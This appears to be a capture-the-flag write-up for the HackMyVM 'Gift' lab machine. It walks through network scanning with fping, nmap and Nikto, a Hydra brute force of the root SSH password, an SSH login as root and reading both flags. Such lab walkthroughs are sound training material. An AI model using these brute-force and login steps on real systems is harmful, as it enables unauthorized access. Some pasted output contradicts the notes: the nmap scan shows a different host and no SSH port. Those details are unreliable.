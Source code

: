 ```yaml
---
title: "Gift Writeup HackMyVM"
date: 2025-07-10 00:00:00 +0530
categories: [Write Up,  HackMyVM] 
tags: [Brute Force, Hydra, Beginner, Privilege Escalation, HackMyVM]
---
```


![Alt Text](/img/gift/vm.png)

<strong>This process highlights the importance of enumeration and scanning for vulnerabilities to gain initial access to a target system. Through this machine, one can learn the importance of thorough reconnaissance and understanding various tools and techniques for successful penetration testing.<strong>

<a href="https://hackmyvm.eu/machines/machine.php?vm=Gift" target="_blank" rel="noopener noreferrer">vm link</a>




##### >> Make a new directory for machine and change to that directory
```shell
┌──(kali㉿kali)-[~]
└─$ cd Desktop/gift
                                                                             
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ 
```



#### >> Find our own IP
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ ip a            
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:21:b1:d0 brd ff:ff:ff:ff:ff:ff
    inet 192.168.0.136/24 brd 192.168.0.255 scope global dynamic noprefixroute eth0
       valid_lft 6912sec preferred_lft 6912sec
    inet6 fe80::f913:6113:d2c9:4db2/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

#### >> Let's find the IP address of our target on our virtual network, we can do this with fping
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ fping -ag 192.168.0.136/24 2> /dev/null
192.168.0.1
192.168.0.115
192.168.0.136
192.168.0.142
192.168.0.147
192.168.0.161
```

#### >> Create a variable for the IP to avoid retyping the address each time
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ ip=192.168.0.161
```
<br>
## Enumeration
<br>

#### >> Scan for open ports and services using nmap
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ sudo nmap -sC -sV -T4 -A -O -p- $ip
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 11:49 EST
Nmap scan report for 192.168.0.142
Host is up (0.00064s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Quick Automative
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 08:00:27:41:D3:56 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.64 ms 192.168.0.142

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.79 seconds
```
- Linux: Not yet known which distribution.
- Port 22: SSH (OpenSSH 8.3).
- Port 80: HTTP (nginx).
- Title: The site doesn't have a title (text/html).

#### >> Enumerate the service using WhatWeb

```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ whatweb $ip                             
http://192.168.0.161 [200 OK] Country[RESERVED][ZZ], HTTPServer[nginx], IP[192.168.0.161], nginx
```

#### >> Let’s open the website in the browser
```
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ firefox $ip &                          
[1] 31479
```
![Alt Text](/img/gift/image1.png)

#### >> Let’s Nikto with target IP
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ nikto -h $ip          
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.0.161
+ Target Hostname:    192.168.0.161
+ Target Port:        80
+ Start Time:         2024-02-08 16:40:50 (GMT-5)
---------------------------------------------------------------------------
+ Server: nginx
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 8102 requests: 0 error(s) and 3 item(s) reported on remote host
+ End Time:           2024-02-08 16:41:11 (GMT-5) (21 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
- Nikto discovered something—an #wp-config.php file containing potential credentials. Let's investigate further.

```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ curl http://$ip/#wp-config.php#

Dont Overthink. Really, Its simple.
        <!-- Trust me -->
```

#### >> With port 22 open, there is a possibility to attempt brute-forcing the root account using Hydra
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ hydra -l root -P ~/Desktop/wl/rockyou.txt $ip ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-08 16:49:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://192.168.0.161:22/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 14344244 to do in 1532:31h, 14 active
[22][ssh] host: 192.168.0.161   login: root   password: simple
[STATUS] 4781466.00 tries/min, 14344398 tries in 00:03h, 2 to do in 00:01h, 6 active
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-08 16:52:41
```
- -l   : login name
- -P : file path to wordlist

<br>
## Initial Access
<br>

#### >> Let’s login as root via ssh
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ ssh root@$ip                       
The authenticity of host '192.168.0.161 (192.168.0.161)' can't be established.
ED25519 key fingerprint is SHA256:dXsAE5SaInFUaPinoxhcuNloPhb2/x2JhoGVdcF8Y6I.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.161' (ED25519) to the list of known hosts.
root@192.168.0.161's password: 
IM AN SSH SERVER
gift:~# 
```
- Now that the connection is established, let's gather information about our identity, roles, and the system we are interacting with.

```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ ssh root@$ip                       
root@192.168.0.161's password: 
IM AN SSH SERVER
gift:~# whoami;id;host;ip a; pwd
root
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
-ash: host: not found
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    link/ether 08:00:27:26:f2:0d brd ff:ff:ff:ff:ff:ff
    inet 192.168.0.161/24 brd 192.168.0.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe26:f20d/64 scope link 
       valid_lft forever preferred_lft forever
/root
gift:~# 
```
#### >> Flags
```shell
gift:~# ls -l
total 8
----------    1 root     root            12 Sep 24  2020 root.txt
-rw-rw----    1 root     root            12 Sep 24  2020 user.txt
gift:~# cat root.txt
####flag####
gift:~# cat user.txt
####flag####
gift:~# 
```
<br>
<center>pwned</center>